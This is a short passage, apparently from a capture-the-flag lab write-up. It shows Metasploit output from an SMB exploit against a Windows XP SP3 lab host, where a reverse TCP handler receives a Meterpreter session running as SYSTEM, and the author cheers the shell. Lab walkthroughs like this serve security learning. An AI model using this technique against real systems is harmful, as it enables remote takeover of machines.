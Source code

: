 ```yaml
[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.4:1032) at 2024-12-25 03:40:03 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

I got a SYSTEM's shell!